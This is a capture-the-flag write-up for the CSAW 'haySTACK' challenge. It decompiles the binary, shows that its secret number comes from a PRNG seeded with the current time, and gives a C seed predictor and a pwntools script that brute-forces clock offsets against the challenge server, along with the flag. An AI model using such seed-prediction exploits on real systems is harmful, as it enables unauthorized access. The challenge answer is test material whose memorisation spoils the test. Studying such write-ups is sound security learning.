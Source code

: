 # haySTACK

> Help! I've lost my favorite needle!
>
> nc pwn.chal.csaw.io 5002

## Description

We are given the binary. We give it to Ghidra to get the disassembled code:

*Note: I renamed functions and variables for clarity*.

```c
void init_stack(void)
{
  long lVar1;
  long in_FS_OFFSET;
  int iVar2;
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  iVar2 = 0;
  while (iVar2 < 0x100000) {
    *(undefined4 *)(&stack0xffffffffffbfffe8 + (long)iVar2 * 4) = 0xb00;
    iVar2 = iVar2 + 1;
  }
  challenge(&stack0xffffffffffbfffe8);
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}

```

This one initialises an array of size 0x100000 filled with 0xb00, then calls `challenge`.

```c
void challenge(long stack)
{
  int iVar1;
  int iVar2;
  long in_FS_OFFSET;
  int local_44;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  iVar1 = random_value();
  *(undefined4 *)(stack + (long)iVar1 * 4) = 0x1337;
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  local_44 = 0;
  do {
    if (2 < local_44) {
LAB_00101429:
      if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
        __stack_chk_fail();
      }
      return;
    }
    fwrite("Which haystack do you want to check?\n",1,0x25,stdout);
    fgets((char *)&local_38,0x20,stdin);
    iVar2 = atoi((char *)&local_38);
    if (iVar2 < 0x100001) {
      if (iVar2 == iVar1) {
        printf("Hey you found a needle! And its number is 0x%08x! That\'s it!\n",
               (ulong)*(uint *)(stack + (long)iVar2 * 4));
        win();
      }
      else {
        printf("Hey, you found a needle, but it\'s number is 0x%08x. I don\'t like that one\n",
               (ulong)*(uint *)(stack + (long)iVar2 * 4));
        if (local_44 == 0) {
          puts(
              "Shoot, I forgot to tell you that I hid a needle in every stack. But I only have onefavorite needle"
              );
        }
        else {
          if (local_44 == 1) {
            puts("Did I mention I\'m in a hurry? I need you to find it on your next guess");
          }
        }
      }
    }
    else {
      fwrite("I don\'t have that many haystacks!\n",1,0x22,stdout);
    }
    if (local_44 == 2) {
      puts("I\'m out of time. Thanks for trying...");
      goto LAB_00101429;
    }
    puts("Let\'s try again!");
    local_44 = local_44 + 1;
  } while( true );
}
```

This function first chooses a random value between 0 and 0x100000, and sets the corresponding array value to 0x1337.
This is performed by those lines:

```c
iVar1 = random_value();
*(undefined4 *)(stack + (long)iVar1 * 4) = 0x1337;
```

with `random_value` defined as follows:
```c
ulong random_value(void)
{
  long lVar1;
  int iVar2;
  time_t tVar3;
  long in_FS_OFFSET;
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  tVar3 = time((time_t *)0x0);
  srand((uint)tVar3);
  iVar2 = rand();
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return (long)iVar2 % 0x100000 & 0xffffffff;
}
```

Then we get 3 tries for finding the number generated by `random_value`. If this works, the `win` function is called and gives the flag.

## Solution

The goal is thus to predict the correct number.
We can do this because we know how the PRNG is initialized:
```c
tVar3 = time((time_t *)0x0);
srand((uint)tVar3);
iVar2 = rand();
```

So the PRNG is initialized using the current time (in seconds). So we can perform the same initialization on our local machine and thus get the same random number generated.

However, there could be some offset between my machine and the server, so I will basically brute force this offset (it should not be that big).

### Step 1: create a C program to generate random numbers.

```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

int main(int argc, char **argv) {
    int offset = atoi(argv[1]);
    time_t t = time(NULL);
    for(int i=0;i<3;++i) {
        srand(t + offset + i);
        printf("%d ", rand() % 0x100000 & 0xffffffff);
    }
    puts("\n");
    return 0;
}
```

I compile it with `gcc -o rand rand.c`

### Step 2: Python exploit

```python
from pwn import *
import os


for OFFSET in range(-10,10,3):

    values = os.popen("./rand {}".format(OFFSET)).read()
    sh = remote("pwn.chal.csaw.io", 5002)

    values = values.strip().split(" ")
    print(values)

    for v in values:
        sh.recvuntil("check?")
        sh.sendline(v)
        sh.recvuntil("Hey")
        answer = "Hey" + sh.recvline().decode()
        print(answer)
        if "That's it" in answer:
            sh.interactive()
```

Flag: `flag{4lw4YS_r3m3mB3R_2_ch3CK_UR_st4cks}`